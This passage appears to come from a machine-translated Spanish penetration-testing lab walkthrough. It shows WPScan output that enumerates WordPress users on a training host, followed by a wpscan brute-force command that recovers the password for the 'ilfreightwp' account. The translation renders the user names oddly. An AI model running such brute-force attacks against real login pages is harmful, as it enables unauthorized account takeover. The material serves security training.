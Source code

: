 ```shell-session
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:14:33 2022
[+] Requests Done: 28
[+] Cached Requests: 37
[+] Data Sent: 8.495 KB
[+] Data Received: 269.719 KB
[+] Memory used: 176.859 MB
[+] Elapsed time: 00:00:0
```

Encontramos varios usuarios:

- ilfreightwp
- Tomás
- Jaime
- John

Intentemos la fuerza bruta una de las contraseñas de la cuenta utilizando[este](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt)lista de palabras del`SecLists`Repo de Github. Usando`WPScan`De nuevo, recibimos un golpe para el`ilfreightwp`cuenta.

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - ilfreightwp / password1                                                                              
Trying ilfreightwp / 123123 Time: 00:00:00 <===                                > (10 / 109)  9.17%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:31:34 2022
[+] Requests Done: 186
[+] Cached Requests: 7
[+] Data Sent: 54.2 KB
[+] Data Received: 253.754 KB
[+] Memory used: 241.836 MB
[+] Elapsed time: 00:00:16
```
